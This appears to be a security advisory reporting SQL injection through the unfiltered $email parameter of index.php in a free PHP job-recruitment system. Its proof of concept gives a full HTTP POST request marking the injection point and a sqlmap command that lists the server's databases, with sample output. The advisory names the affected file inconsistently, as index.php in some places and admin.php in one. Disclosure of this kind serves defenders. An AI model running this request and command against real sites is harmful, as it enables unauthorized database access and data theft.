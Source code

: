 # Job-recruitment-in-php has sql injection vulnerability in index.php  

## supplier
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
index.php
## describe
Through code audit, when there is an unauthorized SQL injection vulnerability in the admin.php of the Job_Recruitment systtem, The information of the database can be obtained without authorization, and arbitrary commands may be executed. control parameter: **$email**

## code analysis
The **$email** parameters of the index.php are not filtered and concatenated into the SQL statement for execution. There sql injection vulnerability.

![image-20241110232236971](https://github.com/user-attachments/assets/eec9ee9d-ef11-4dfa-9bb9-09ff8c933f78)

## POC

### Get data

```
POST /index.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/index.php/
Cookie: PHPSESSID=apdbj581m83cio8cj275e494dr
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=1*&p=1
```

save as 1.txt 

and excute the command

```
python sqlmap.py -r 1.txt --dbs
```

get databases: owlphin,bloodbank,curd...

![image-20241111082034200](https://github.com/user-attachments/assets/50345c08-9441-4f67-aa07-cf6c9855d373)

**Discover**

西安电子科技大学 李腾，谢亚轩